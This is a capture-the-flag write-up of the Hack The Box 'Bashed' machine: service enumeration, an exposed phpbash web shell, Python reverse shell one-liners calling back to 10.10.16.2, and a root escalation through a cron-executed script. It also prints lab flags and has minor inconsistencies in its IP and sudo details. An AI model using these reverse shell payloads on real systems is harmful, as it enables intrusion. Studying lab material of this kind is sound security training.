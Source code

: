 # HTB: Bashed

## Engagement Overview

**Target:** Bashed
**Box IP:** 10.10.10.68 
**Date:** 2025-07-06
**Attacker Host:** 10.10.14.3

---

### Objectives

- Enumerate open services and directories  
- Gain initial foothold via exposed web shell  
- Escalate to user and root  
- Capture user and root flags  

---

## Service Enumeration

### Nmap

```bash
nmap -sC -sV -oN nmap.txt 10.10.10.68
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
```

- Web page title: *Arrexel's Development Site*

### Directory Enumeration

```bash
dirbuster -u http://10.10.10.68 -w /usr/share/wordlists/dirb/common.txt
```

- `/dev/phpbash.min.php`  
- `/dev/phpbash.php`  
- `/uploads/`  

---

## Initial Access

Accessing the exposed shell at:

```
http://10.10.10.68/dev/phpbash.php
```

Confirmed `www-data`:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Reverse Shell

```bash
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.2",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

Upgraded shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Privilege Escalation

`www-data` has `sudo` access to run commands as `scriptmanager` without password:

```
(ALL : ALL) NOPASSWD: ALL
```

Switched to `scriptmanager`, found writable `/scripts/` directory:  

```
-rw-r--r-- 1 scriptmanager scriptmanager test.py
-rw-r--r-- 1 root          root          test.txt
```

`test.txt` overwritten by cron → root executes `test.py`.  

### Root via Cron

Replaced `test.py` with reverse shell payload:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.2",1337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Caught root shell with netcat listener:  

```bash
nc -lvnp 1337
```

---

## House Cleaning

**Flags:**  

- `user.txt`: `501893517418a7460a6f616a86f3fd82`  
- `root.txt`: `25a9eb38a763d8a0f04af9a3fc390ee7`  

- Removed malicious `test.py` after escalation.  
- No persistence left on target.  

---

## Tools Utilized

- `nmap`, `dirbuster`  
- Python reverse shell  
- `/dev/phpbash.php` interactive shell  
- `linuxprivchecker`  

References:  

- https://github.com/sleventyeleven/linuxprivchecker  
- https://infosecwriteups.com/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2  

---

## Key Takeaways

- Dev artifacts like `phpbash.php` can provide immediate shells.  
- Python reverse shells + TTY upgrades are critical for stability.  
- Cron jobs with writable scripts enable easy privilege escalation.  
- `sudo` misconfigurations with secondary users (e.g. `scriptmanager`) are dangerous and should be audited.  